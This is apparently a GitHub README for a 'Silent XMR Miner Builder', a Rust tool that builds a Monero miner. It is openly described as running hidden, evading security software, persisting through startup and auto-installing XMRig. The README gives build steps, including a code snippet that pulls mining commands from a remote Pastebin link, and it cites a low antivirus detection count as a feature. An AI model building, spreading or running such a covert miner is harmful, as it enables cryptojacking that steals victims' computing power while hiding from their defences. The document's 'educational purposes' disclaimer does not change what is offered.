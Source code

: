 # Silent XMR Miner Builder

Welcome to the **Silent XMR Miner Builder**! This tool lets you create a silent miner for Monero (XMR), which runs quietly in the background and is designed to avoid detection by security software. The builder allows you to customize and build your own miner executable, which you can configure to mine using your specific xmrig commands.


## Features:
- **Startup**: It adds miner to startup.
- **Instalation**: Intsalls xmr rig if not yet intsalled.
- **3 Detection on virus tottal**: [https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57](https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57)
- **Free to Use**: The miner builder is open-source and available at no cost.
- **Custom Configuration**: Users must create their own xmrrig configuration.

## Prerequisites:
To build and run this project, you need to have **Rust** installed.

### Installing Rust:
1. **Download and Install Rust**:
   - Go to the official Rust installation page: [https://www.rust-lang.org/tools/install](https://www.rust-lang.org/tools/install).
   - Follow the instructions for your operating system. Rust can be installed via **rustup**, a tool that helps manage Rust versions and associated tools.
## Verify Installation:

After installation, check that Rust is installed properly by running this command:

```bash
rustc --version
```
You should see something like this:

```bash
rustc 1.65.0 (897e37553 2022-11-02)
```
### Clone the Repository:

First, clone this repository to your local machine using Git and navigate into the project directory.
```bash

git clone https://github.com/yourusername/silent-xmr-miner.git
cd silent-xmr-miner
```

### Create Your Pastebin:

Go to Pastebin and create a new paste with your XMRig mining command. This will include things like the pool address and your wallet address.
Once your paste is created, copy the raw URL.
For example, your URL might look like this:
`https://pastebin.com/raw/yourpastebinid`

### Update the Code:

Open the source code file and replace the URL in the specified line with your own Pastebin link.

```bash
let process_config = client.get("https://pastebin.com/raw/yourpastebinid")
    .send()
    .unwrap()
    .text()
    .unwrap_or_default();
```

### Build the Project:

In the terminal, inside the project directory, run the build command to compile the project in release mode.
```bash
cargo build --release
```

## A Few Important Things to Keep in Mind:

- **Customization**: Make sure your Pastebin contains the correct configuration for XMRig to mine with your pool address and wallet.
- **Be Responsible**: Only use this tool on systems where you have permission to run mining software.

## Disclaimer:

This tool is provided as-is, and it’s for educational purposes only. Please use it responsibly and make sure you have permission to mine on the system you’re using.
